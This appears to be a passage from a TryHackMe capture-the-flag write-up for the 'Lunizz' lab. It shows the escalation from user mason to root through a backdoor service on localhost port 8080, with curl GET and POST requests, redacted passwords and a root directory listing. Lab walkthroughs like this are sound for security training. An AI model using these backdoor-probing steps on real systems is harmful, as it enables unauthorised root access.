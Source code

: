 I'm `mason`!

**user.txt:**
```
mason@lunizz:~$ cat /home/mason/user.txt 
thm{Recated}
```

## mason to root

**Did you still remember the port 8080 in localhost?**
```
mason@lunizz:~$ curl http://localhost:8080/
**********************************************************
*                Mason's Root Backdoor                   *
*                                                        *
*   Please Send Request (with "password" and "cmdtype")  *
*                                                        *
**********************************************************
-------------CMD TYPES-------------
lsla
reboot
passwd
```

Since now we now `mason` password, we may interact with this backdoor, as it needs a password.

**Also, we don't know it needs a GET request or a POST request. Let's try GET request first:**
```
mason@lunizz:~$ curl 'http://localhost:8080?password={Redacted}&cmdtype=lsla'
**********************************************************
*                Mason's Root Backdoor                   *
*                                                        *
*   Please Send Request (with "password" and "cmdtype")  *
*                                                        *
**********************************************************
-------------CMD TYPES-------------
lsla
reboot
passwd
```

**Nope. Maybe POST request?**
```
mason@lunizz:~$ curl 'http://localhost:8080' -X POST -d 'password={Redacted}&cmdtype=lsla'
total 44
drwx------  6 root root 4096 Feb 28  2021 .
drwxr-xr-x 25 root root 4096 Mar 25  2021 ..
lrwxrwxrwx  1 root root    9 Feb 10  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3771 Feb 10  2021 .bashrc
drwx------  3 root root 4096 Feb 12  2021 .cache
drwx------  3 root root 4096 Feb 12  2021 .gnupg
-rw-r--r--  1 root root 1044 Feb 28  2021 index.php
drwxr-xr-x  3 root root 4096 Feb  9  2021 .local
lrwxrwxrwx  1 root root    9 Feb 11  2021 .mysql_history -> /dev/null
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r-----  1 root root   38 Feb 28  2021 r00t.txt
-rw-r--r--  1 root root   66 Feb 28  2021 .selected_editor
drwx------  2 root root 4096 Feb  9  2021 .ssh
**********************************************************
*                Mason's Root Backdoor                   *
*                                                        *
*   Please Send Request (with "password" and "cmdtype")  *
*                                                        *
**********************************************************
-------------CMD TYPES-------------
lsla
```